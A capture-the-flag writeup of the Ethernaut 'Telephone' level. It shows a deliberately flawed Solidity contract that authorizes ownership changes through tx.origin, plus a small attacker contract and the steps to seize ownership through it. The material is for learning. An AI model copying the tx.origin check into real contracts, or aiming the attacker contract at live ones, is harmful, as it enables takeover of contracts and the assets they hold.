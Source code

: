 ```yaml
---
layout: post
title: Ethernaut - 4.Telephone
date:  2022-08-27
tags: ethernaut solidity
---
```


## Difficulty: 🌕🌑🌑🌑🌑

> Claim ownership of the contract below to complete this level.<br />
  Things that might help<br /><br />
  See the Help page above, section "Beyond the console"

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

## Writeup
To complete this level, we need to claim ownership of the contract. 
The keypoint is the difference between` tx.origin` and `msg.sender`.

![](https://i.imgur.com/ktsMFfo.png)
1. Get new instance
2. Create a contract 
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    interface Telephone {
        function changeOwner(address _owner) external;
    }

    contract AttackTelephone {
        Telephone public targets = Telephone(YOUR_LEVEL_INSTANCE_ADDRESS);

        function attackTelephone() public{
            targets.changeOwner(YOUR_ACCOUNT);
        }
    }
    ```
3. Compile & deploy 
4. Call attackTelephone function. In this scenario, `tx.origin` will be the victim's address while `msg.sender` will be the malicious contract( AttackTelephone )'s address.( `tx.origin != msg.sender` == `true` )
5. `await contract.owner().then(v => v.toString())` to check owner if it is your account.
6. Submit instance ξ( ✿＞◡❛)


## Reference
[tx.origin vs msg.sender](https://davidkathoh.medium.com/tx-origin-vs-msg-sender-93db7f234cb9)